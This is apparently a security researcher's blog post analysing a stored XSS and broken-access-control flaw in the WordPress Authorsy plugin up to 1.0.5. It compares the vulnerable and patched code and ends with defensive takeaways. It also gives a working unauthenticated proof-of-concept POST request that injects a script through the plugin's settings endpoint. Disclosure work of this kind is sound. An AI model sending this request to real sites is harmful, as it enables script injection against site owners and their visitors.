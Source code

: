 # CVE-2025-27006 Analysis & POC


<!--more-->

The vulnerability exists in the **Authorsy** plugin for WordPress prior to version **1.0.6**. This could allow an attacker to inject malicious code (e.g., redirect scripts, ads, or other HTML payloads) into the website, which would execute when visitors open the page.

* **CVE ID**: [CVE-2025-27006](https://www.cve.org/CVERecord?id=CVE-2025-27006)
* **Product**: [WordPress Authorsy Plugin](https://wordpress.org/plugins/authorsy/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 1.0.5
* **CVSS severity**: Medium (6.5)
* **OWASP Top 10**: A1: Broken Access Control
* **Required Privilege**: Subscriber

> Although the description requires **Subscriber** privileges, it can actually be exploited **Unauthenticated**.

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Authorsy**: v1.0.5 (vulnerable) and v1.0.6 (patched)
* **Diff tool**: **meld** or any tool to compare two versions

## Analysis

The plugin allows custom CSS, stores it in `wp_options`, and injects it directly into the `<style>` tag on pages. However, users can interact with the API to modify CSS without proper **access control**, leading to **Broken Access Control** and potential **XSS** if malicious payloads are inserted.

### Patch Diff

Use a diff tool to compare vulnerable and patched versions. Notice clear differences in two files: **core/settings/api-settings.php** and **core/enqueue-inline/enqueue-inline.php**.

**File core/enqueue-inline/enqueue-inline.php**

```php
public function custom_inline_css()
{
    $custom_css  = '';
    $ea_custom_css = authorsy_get_option('ea_custom_css');
    if(is_single()){
        $custom_css.= $ea_custom_css;
    }
    
    $custom_css .= "
    :root { 
        --ea-color-main: $primary_color;  
    }
    "
    wp_add_inline_style('authorsy-custom-css', $custom_css);
}
```

User data is inserted without validation, leaving it vulnerable to **XSS**.

Patched version:

```php
public function custom_inline_css()
{
    $custom_css  = '';
    $ea_custom_css = authorsy_get_option('ea_custom_css');
    if(is_single() && !empty($ea_custom_css)){
        // Sanitize and escape to prevent XSS
        $ea_custom_css = wp_strip_all_tags($ea_custom_css);
        $ea_custom_css = esc_html($ea_custom_css);
        $custom_css.= $ea_custom_css;
    }
    
    $custom_css .= "
    :root { 
        --ea-color-main: $primary_color;  
    }
    "
    wp_add_inline_style('authorsy-custom-css', $custom_css);
}
```

Sanitization ensures only safe CSS is injected.

![diff 1](diff1.png "Diff showing changes in enqueue-inline.php to sanitize custom CSS")

**File core/settings/api-settings.php**

Vulnerable:

```php
'permission_callback' => function () {
    return true;
},
```

Patched:

```php
'permission_callback' => function () {
    return current_user_can('manage_options');
},
```

The permission callback now restricts access to **admins**, mitigating **Broken Access Control** and indirectly reducing **XSS** risk.

![diff 2](diff2.png "Diff showing REST API permission callback changes in api-settings.php")

### How it works

`custom_inline_css()` is hooked to [`wp_head`](https://developer.wordpress.org/reference/hooks/wp_head/). When WordPress renders the `<head>` section, this function concatenates user options from `authorsy_get_option()` into `$custom_css` and adds it inline:

```php
$custom_css  = authorsy_get_option('ea_custom_css');
```

Since this data is stored in the database, this is **Stored XSS**.

### Exploit

Send a **POST** request to `/wp-json/authorsy/v1/settings` with an XSS payload:

```http
POST /wp-json/authorsy/v1/settings HTTP/1.1
Host: localhost
Content-Type: application/json

{
"primary_color":"</style><script>alert(document.domain)</script><style>"
}
```

The payload closes the existing `<style>` and injects a `<script>` tag. Visiting any page will execute the XSS.

![XSS](xss.png "Injected XSS payload in <head> via custom CSS")

```html
<style>
    :root { 
        --ea-color-main: </style><script>alert(document.domain)</script><style>;  
    } 
</style>
```

## Conclusion

The `CVE-2025-27006` vulnerability in **Authorsy <= 1.0.5** demonstrates **Broken Access Control** combined with **XSS**. Root causes:

1. REST API lacks proper access control (`permission_callback` always true).
2. Custom CSS is inserted without **sanitization**, enabling injection of `<script>` tags.
3. Nonce verification does not stop execution when invalid, making security checks ineffective.

**Key takeaways**:

* Always use proper `permission_callback` to prevent **Broken Access Control**.
* Sanitize and escape user input before rendering in HTML/CSS/JS to prevent **XSS**.

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Authorsy Plugin <= 1.0.5 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/authorsy/vulnerability/wordpress-authorsy-plugin-1-0-5-cross-site-scripting-xss-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-10-04-cve-2025-27006/  

